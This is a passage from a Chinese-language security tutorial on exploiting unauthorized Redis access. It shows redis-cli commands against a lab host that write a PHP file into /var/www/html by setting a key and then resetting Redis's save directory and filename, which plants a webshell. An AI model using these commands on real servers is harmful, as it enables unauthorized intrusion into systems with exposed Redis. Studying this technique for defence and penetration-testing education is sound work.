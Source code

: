 ![](redis未授权访问与ssrf利用\3.png)



## 写入webshell

当redis权限较低，上面两种方法都行不通的时候，可以尝试往web服务中写入一句话，获取webshell

```
192.168.85.132:6379> set x "<?php phpinfo();?>"
OK
192.168.85.132:6379> config set dir /var/www/html
OK
192.168.85.132:6379> config set dbfilename shell.php
OK
192.168.85.132:6379> save
OK
```

这样，就能在根目录下生成shell.php。访问一下

![](redis未授权访问与ssrf利用\4.png)


